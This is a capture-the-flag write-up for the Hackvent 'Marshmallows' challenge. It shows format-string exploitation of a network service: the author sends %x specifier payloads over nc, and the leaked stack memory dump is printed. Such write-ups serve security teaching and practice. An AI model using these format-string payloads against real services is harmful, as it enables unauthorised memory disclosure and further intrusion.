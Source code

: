 ```yaml
---
layout: writeup
title: 'Dec 16: Marshmallows'
level:
difficulty:
points:
categories: []
tags: []
flag:
---
```

type: "nomnomnom marhshmallow nomnomnom muffin%x was here"

**Challenge**
There's this guy Randy, he loves marshmallows and programming in python
and C.
Prove him by hacking his server, that it's not a good idea to code if
you had too many marshmallows.

nc challenges.hackvent.hacking-lab.com 1033

**Solution**
Following their hint, I connect and type the string:

    > 1
    [+] Please give me some marshmallows: nomnomnom marhshmallow nomnomnom muffin%x was here
    nomnomnom marhshmallow nomnomnom muffin968900 was here
    [+] Menu

Which naturally leads to asking:

    [+] Please give me some marshmallows: %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
    9689001c9aed885c8a785c8a77532dd3ab929430b9293e01b21d40cb929378b92937cb929390010b9292e01c2a0340b9294300b9294e0b92923008b9
    2938cb929388b929390111b929430b929540b18a7400b929480b929430b9294e00b9294101b9295401b42f12d1b63883042b9294602b9294601b4317
    3c0206a120b9295401b42d56eb9294601b42f03f1b638830206a120206a140006e0b929460b9294501ea422001c2a034001101b9294501fef3b81b65
    0a481c60a7602b9293f01c894e5800b18a7400b9295c01b17643001b648c88001b666ee81b42f6a31c2a0340001ea4220001b6a9688206aa10696373
    611ca136c01ca1ac18206aa101b648c881b650a481f0dcf81c9aab591b648c881f0db781b1764301ea4220048a487000001c2d0f891c9aaa281f0dcf
    01c9fca981f0dcf001c93d3001c9401e0121f0dcf0101f0dcf01c9aaa561f0db781c961d8801ea42201f0dcf81f604101ea40701c9401e001c9401e0
    1c9401e0509d991c916ea01c9a73c881c9401e01f0db781f0dcf01ea42200048e45b1ea4070001edd5d0000001c9401e01f72a405595b31015238ce0
    1edd5d01c8a34881c9401e01c9a73c81c9a73c8011f72a4048f15b0000011f72a405597301c8a07c01ea40701f048d04793c5b92998001ea40701c84
    54d51c9a73c81c9a73c81c9674381c9a73c81c8a22901c9a64a81f048d01c8a22ae14797a2b929980ffffffffb9299800b9221231c8a22901f048d01
    c8a071001ea40e011c8a227005bfaa006e1f048d0001c3c9d0101c3c9df6fd04815b0f181c400840100085854103c3ad01a8e584e04b30584e06ca1f
    355ed1000031ea40401ea401001ea4070347d9f41ea40702b929aa00056d55cb929b80001c26df450b929b88047d8c0041b709aa56d55cb929b80007
    4d709aafc4d09aa0005c13f0b929b8830056d55cb929b80056d585b929b781c3b92ae93b92ae9bb92ae9e0b92aec1b92aed7b92aef3b92af0bb92af2
    0b92af3ab92af502062a80b92af82b92afc4b92afd4b92afda021b9bd00010fabfbff61000116434000404385971c82f00080956d55cb3e8c3e8d3e8
    e3e817019b929d491fb92afe7fb929d590008a74c3002920dbaa36387884000000000000000000000000000000000000000000000000000000000000
    000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
    0000000000000000000


